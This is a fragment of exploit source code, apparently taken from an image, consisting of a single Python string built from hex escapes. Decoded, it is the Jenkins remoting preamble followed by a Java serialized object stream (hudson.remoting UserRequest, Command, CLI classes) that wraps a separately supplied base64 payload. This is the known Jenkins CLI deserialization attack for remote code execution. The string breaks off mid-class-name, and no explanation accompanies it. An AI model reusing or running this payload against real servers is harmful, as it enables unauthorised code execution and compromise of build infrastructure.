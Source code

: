 ```
payload='\x3c\x3d\x3d\x3d\x5b\x4a\x45\x4e\x4b\x49\x4e\x53\x20\x52\x45\x4d\x4f\x54\x49\x4e\x47\x20\x43\x41\x50\x41\x43\x49\x54\x59\x5d\x3d\x3d\x3d\x3e'+payload_b64+'\x00\x00\x00\x00\x11\x2d\xac\xed\x00\x05\x73\x72\x00\x1b\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x55\x73\x65\x72\x52\x65\x71\x75\x65\x73\x74\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x03\x4c\x00\x10\x63\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x50\x72\x6f\x78\x79\x74\x00\x30\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x52\x65\x6d\x6f\x74\x65\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x24\x49\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x3b\x5b\x00\x07\x72\x65\x71\x75\x65\x73\x74\x74\x00\x02\x5b\x42\x4c\x00\x08\x74\x6f\x53\x74\x72\x69\x6e\x67\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x78\x72\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x71\x75\x65\x73\x74\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x03\x49\x00\x02\x69\x64\x49\x00\x08\x6c\x61\x73\x74\x49\x6f\x49\x64\x4c\x00\x08\x72\x65\x73\x70\x6f\x6e\x73\x65\x74\x00\x1a\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x52\x65\x73\x70\x6f\x6e\x73\x65\x3b\x78\x72\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x01\x4c\x00\x09\x63\x72\x65\x61\x74\x65\x64\x41\x74\x74\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x3b\x78\x70\x73\x72\x00\x1e\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x24\x53\x6f\x75\x72\x63\x65\x00\x00\x00\x00\x00\x00\x00\x01\x02\x00\x01\x4c\x00\x06\x74\x68\x69\x73\x24\x30\x74\x00\x19\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x43\x6f\x6d\x6d\x61\x6e\x64\x3b\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\xd0\xfd\x1f\x3e\x1a\x3b\x1c\xc4\x02\x00\x00\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\xd5\xc6\x35\x27\x39\x77\xb8\xcb\x03\x00\x04\x4c\x00\x05\x63\x61\x75\x73\x65\x74\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\x3b\x4c\x00\x0d\x64\x65\x74\x61\x69\x6c\x4d\x65\x73\x73\x61\x67\x65\x71\x00\x7e\x00\x03\x5b\x00\x0a\x73\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x74\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x4c\x00\x14\x73\x75\x70\x70\x72\x65\x73\x73\x65\x64\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x74\x00\x10\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4c\x69\x73\x74\x3b\x78\x70\x71\x00\x7e\x00\x10\x70\x75\x72\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x02\x46\x2a\x3c\x3c\xfd\x22\x39\x02\x00\x00\x78\x70\x00\x00\x00\x0c\x73\x72\x00\x1b\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x61\x09\xc5\x9a\x26\x36\xdd\x85\x02\x00\x04\x49\x00\x0a\x6c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x4c\x00\x0e\x64\x65\x63\x6c\x61\x72\x69\x6e\x67\x43\x6c\x61\x73\x73\x71\x00\x7e\x00\x03\x4c\x00\x08\x66\x69\x6c\x65\x4e\x61\x6d\x65\x71\x00\x7e\x00\x03\x4c\x00\x0a\x6d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65\x71\x00\x7e\x00\x03\x78\x70\x00\x00\x00\x43\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x74\x00\x0c\x43\x6f\x6d\x6d\x61\x6e\x64\x2e\x6a\x61\x76\x61\x74\x00\x06\x3c\x69\x6e\x69\x74\x3e\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x32\x71\x00\x7e\x00\x15\x71\x00\x7e\x00\x16\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x63\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x71\x75\x65\x73\x74\x74\x00\x0c\x52\x65\x71\x75\x65\x73\x74\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x3c\x74\x00\x1b\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x55\x73\x65\x72\x52\x65\x71\x75\x65\x73\x74\x74\x00\x10\x55\x73\x65\x72\x52\x65\x71\x75\x65\x73\x74\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x03\x08\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x68\x61\x6e\x6e\x65\x6c\x74\x00\x0c\x43\x68\x61\x6e\x6e\x65\x6c\x2e\x6a\x61\x76\x61\x74\x00\x04\x63\x61\x6c\x6c\x73\x71\x00\x7e\x00\x13\x00\x00\x00\xfa\x74\x00\x27\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x74\x00\x1c\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x2e\x6a\x61\x76\x61\x74\x00\x06\x69\x6e\x76\x6f\x6b\x65\x73\x71\x00\x7e\x00\x13\xff\xff\xff\xff\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x24\x50\x72\x6f\x78\x79\x31\x70\x74\x00\x0f\x77\x61\x69\x74\x46\x6f\x72\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x04\xe7\x71\x00\x7e\x00\x20\x71\x00\x7e\x00\x21\x74\x00\x15\x77\x61\x69\x74\x46\x6f\x72\x52\x65\x6d\x6f\x74\x65\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x93\x74\x00\x0e\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x74\x00\x08\x43\x4c\x49\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x48\x74\x00\x1f\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x74\x00\x19\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x2e\x6a\x61\x76\x61\x74\x00\x07\x63\x6f\x6e\x6e\x65\x63\x74\x73\x71\x00\x7e\x00\x13\x00\x00\x01\xdf\x71\x00\x7e\x00\x2d\x71\x00\x7e\x00\x2e\x74\x00\x05\x5f\x6d\x61\x69\x6e\x73\x71\x00\x7e\x00\x13\x00\x00\x01\x86\x71\x00\x7e\x00\x2d\x71\x00\x7e\x00\x2e\x74\x00\x04\x6d\x61\x69\x6e\x73\x72\x00\x26\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c
```